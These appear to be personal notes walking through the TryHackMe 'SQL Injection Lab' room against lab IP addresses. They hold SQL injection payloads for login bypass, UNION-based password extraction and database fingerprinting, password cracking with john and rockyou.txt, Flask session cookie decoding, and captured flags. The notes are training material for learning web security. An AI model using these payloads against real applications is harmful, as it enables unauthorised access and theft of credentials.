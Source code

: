 [TryHackMe | SQL Injection Lab](https://tryhackme.com/room/sqlilab)

# SQL Injection Lab

**Understand how SQL injection attacks work and how to exploit this vulnerability.**

```
http://10.10.218.93:5000/
```

![[Pasted image 20230704220049.png]]

http://10.10.184.158:5000/sesqli1/login?next=http%3A%2F%2F10.10.184.158%3A5000%2Fsesqli1%2Fhome

```
'1 or 1=1-- -
```

![[Pasted image 20230704220611.png]]

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID='1 or 1=1-- - AND password = '47f274ce60fb8335f29cbe4437fc56108d099dfa914fad4064ec1239ada24f13'
```

```
1 or 1=1-- -
```

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID=1 or 1=1-- - AND password = 'abbabb4d0029fc954aafabe7faed5d71c7997b1d28ee676cc0495da8c6efde88'
```

```
THM{dccea429d73d4a6b4f117ac64724f460}
```

![[Pasted image 20230704223143.png]]

http://10.10.184.158:5000/sesqli1/home

http://10.10.184.158:5000/sesqli2/home

```
1' or '1'='1'-- -
```

![[Pasted image 20230704223439.png]]

```
THM{356e9de6016b9ac34e02df99a5f755ba}
```

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID = '1' or '1'='1'-- -' AND password = 'da45f5fec53621a955c6b72dbf48c338741a295cf9146d441c1cd650e35cbe42'
```

![[Pasted image 20230704223637.png]]

```
http://10.10.184.158:5000/sesqli3/login?profileID=-1%27%20or%201=1--%20-&password=a
```

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID='-1' or 1=1-- -' AND password='ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb'
```

```
THM{645eab5d34f81981f5705de54e8a9c36}
```

![[Pasted image 20230704224124.png]]

http://10.10.184.158:5000/sesqli4/login?next=http%3A%2F%2F10.10.184.158%3A5000%2Fsesqli4%2Fhome

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID = '1' AND password = '9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08'
```
![[Pasted image 20230704224533.png]]
![[Pasted image 20230704225334.png]]

![[Pasted image 20230704225550.png]]

![[Pasted image 20230705064047.png]]

![[Pasted image 20230705064153.png]]

![[Pasted image 20230705070854.png]]

```
THM{727334fd0f0ea1b836a8d443f09dc8eb}|
```

*To identify what database is in use...*

### For MySQL and MSSQL

',nickName=@@version,email='

### For Oracle

',nickName=(SELECT banner FROM v$version),email='

### For SQLite

',nickName=sqlite_version(),email='

http://10.10.218.93:5000/sesqli5/login

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID=? AND password=?
```

![[Pasted image 20230706055157.png]]

http://10.10.218.93:5000/sesqli5/home

![[Pasted image 20230706060132.png]]

http://10.10.218.93:5000/sesqli5/profile

![[Pasted image 20230706063419.png]]



https://www.onlinehashcrack.com/wh86lv20ap

```
find / -type f -name rockyou.txt 2>/dev/null
/usr/share/wordlists/rockyou.txt
```

![[Pasted image 20230704222216.png]]

```
47f274ce60fb8335f29cbe4437fc56108d099dfa914fad4064ec1239ada24f13
```
https://gchq.github.io/CyberChef/

```
john --format=raw-sha256 --wordlist=/usr/share/wordlists/rockyou.txt sqli1.txt
```

```
http://10.10.184.158:5000/downloads/
```

![[Pasted image 20230627224134.png]]

**06072023Thu**

```
http://10.10.144.133:5000/challenge1/
```

![[Pasted image 20230706214705.png]]

```
http://10.10.144.133:5000/challenge1/signup
```

![[Pasted image 20230706214821.png]]

![[Pasted image 20230706214930.png]]

```
http://10.10.144.133:5000/challenge1/home
```

![[Pasted image 20230706215118.png]]

![[Pasted image 20230706215937.png]]

spaceadmin

![[Pasted image 20230706220114.png]]

```
https://youtu.be/TiEQrwKRWjc?t=1686
```

**TryHackMe #301 SQL Injection Lab**
https://www.youtube.com/@AdamskiCTF

```
THM{f35f47dcd9d596f0d3860d14cd4c68ec}
```

![[Pasted image 20230706221958.png]]

**07072023Fri**

https://www.kirsle.net/wizards/flask-session.cgi

http://10.10.142.195:5000/challenge2/home

![[Pasted image 20230707060305.png]]

![[Pasted image 20230707060742.png]]

![[Pasted image 20230707061003.png]]

```
' UNION SELECT 1,group_concat(password) FROM users-- -
```

rcLYWHCxeGUsA9tH3GNV,asd,Summer2019!,345m3io4hj3,THM{fb381dfee71ef9c31b93625ad540c9fa},viking123

```
THM{fb381dfee71ef9c31b93625ad540c9fa}
```

![[Pasted image 20230707061501.png]]

![[Pasted image 20230707061641.png]]

```
python3 decode_cookie.py .eJyrVkrOSMzJSc1LTzWKLy1OLYrPTFGyMtRBF85LzE1VslJKTMnNzFOqBQAYpRNS.ZKdO6A.dOUoVKmnRFc9xlIl60YfJg5uoIs
{
    "challenge2_user_id": 1,
    "challenge2_username": "admin"
}
```

```
python3 decode_cookie.py .eJxdyLsOwiAUANBvkZmhcEGlm-lQBnXxFaeGwqVFS03AGpOm_-7uGc9MbG-GAccOeTNlTE1wpGT0v0cTkZQk2f39pqsv1pe8U28N9fFKTXb0NMWIiRdMrSgIGSG8RP8AetaH2bewZc4jbhh6ZYG1CtZcGidFYZU3C_2EZxg7xoEsP-x5LwI.ZKdRdA.KvIZbyBOgx9nF2nHAZBmCbLJTjc
{
    "challenge2_user_id": 1,
    "challenge2_username": "rcLYWHCxeGUsA9tH3GNV,asd,Summer2019!,345m3io4hj3,THM{fb381dfee71ef9c31b93625ad540c9fa},viking123"
}
```

